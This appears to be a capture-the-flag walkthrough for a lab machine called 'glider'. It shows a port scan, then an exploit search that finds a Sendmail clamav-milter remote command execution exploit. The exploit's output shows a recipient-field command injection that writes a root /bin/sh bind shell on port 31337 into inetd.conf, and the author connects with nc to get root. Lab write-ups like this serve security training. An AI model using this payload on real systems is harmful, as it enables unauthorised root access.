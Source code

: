 # Network Enumeration

```bash
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
199/tcp open  smux
445/tcp open  microsoft-ds
```

## Web access

Access to `80` found a binary string.

<img src="../Images/image-20230807112115001.png" alt="image-20230807112115001" style="zoom:80%;" />

Convert it.

<img src="../Images/image-20230807112133499.png" alt="image-20230807112133499" style="zoom:80%;" />

```markdown
ifyoudontpwnmeuran00b
```

But this string is not useful, use the name of machine to search on `searchsploit`

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ searchsploit clamav                       
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                   | multiple/remote/4761.pl
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Download the pl script from `searchsploit`.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ perl 4761.pl 192.168.178.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.178.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 7 Aug 2023 03:30:09 -0400; (No UCE/UBE) logging access from: [192.168.45.155](FAIL)-[192.168.45.155]
250-localhost.localdomain Hello [192.168.45.155], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 3777U9if004267 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

That shows `31337` port will open.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ nmap -p31337 192.168.178.42                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-07 08:05 +0430
Nmap scan report for 192.168.178.42
Host is up (0.23s latency).

PORT      STATE SERVICE
31337/tcp open  Elite

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds

```

Use `nc` to try connect

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ nc 192.168.178.42 31337    
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
ls /root/proof.txt
/root/proof.txt
cat /root/proof.txt
cd51bf4074919c204c669df30e4656ac
```

Needn't PE